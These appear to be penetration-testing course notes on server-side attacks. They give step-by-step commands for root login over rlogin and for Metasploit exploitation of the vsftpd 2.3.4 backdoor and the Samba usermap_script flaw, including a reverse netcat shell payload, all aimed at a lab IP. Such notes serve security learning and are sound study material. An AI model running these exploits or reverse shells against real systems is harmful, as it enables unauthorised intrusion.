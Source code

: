 # Server-Side Attacks:
- Need an IP address
- Very simple if target is on the same network (netdiscover or zenmap)
- If target has a domain, then a simple ping will return its IP. > ping www.facebook.com
- Getting the IP is tricker if the target is a personal computer, might be usefull if the target is accessing the internet through a network as the IP will be the router IP and not the targets, client side attacks are more effective in this case as reverse connection can be used.

The general steps are always the same!
- Discover open ports and running services
- Find vulnerabilities
- Find exploits
- Exploit/Verify
- Report

## Information Gathering:
- Try default password (ssh iPad case).
- Services might be mis-configured, such as the "r" services. Ports 512, 513, 514
- Some might even contain a back door!
- Code execution vulnerabilities.

Install "rsh-client" by executing
```bash
sudo apt-get install rsh-clinet
```
If **512 PORT** is opened or the server allows the remote login, then execute
```bash
rlogin -l root 10.20.14.204  # 10.20.14.204 is server IP, root is user
```

## Hacking a Remote Server Using a Basic Metasploit Exploit (PORT 21):
Metasploit is an exploit development and execution tool. It can also be used to carry out other penetration testing tasks such as port scans, services identification and post exploitation tasks.
- > msfconsole --> runs the metasploit console
- > help --> shows help
- > show [something] --> something can be exploit, payloads, auxiliaries or options
- > use [something] --> use a certain exploit, payload or auxiliary
- set [option] [value] --> configure [option] to have a value of [value]
- exploit --> runs the current task

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 10.20.14.204
show options
exploit  # if doesn't execute successfully, execute again
```

## Exploiting a Code Execution Vulnerability to Hack into a Remote Server(PORT 139):
```bash
msfconsole
use exploit/multi/samba/usermap_script
show options
set RHOST 10.20.14.204  # This is server IP address
show options
show payloads
set PAYLOAD cmd/unix/reverse_netcat
show options
set LHOST 10.20.14.203  # This is my IP address
show options
set LPORT 80  # Server will listen in this PORT
show options
exploit
```

## Nextpose:
Vulnerability Management Framework
- Discover open ports and running services
- Find vulnerabilities
- Find exploits
- verify them
- Generate reports
- Automate scans

For this, minimum 8GB mempry is required. You can download the nextpose file from https://www.rapid7.com/try/nexpose. And give permission and execute by
```bash
sudo chmod +x Rapid7Setup-Linux64.bin
./Rapid7Setup-Linux64.bin
systemctl disable nextposeconsole.service  # disable the autostart
```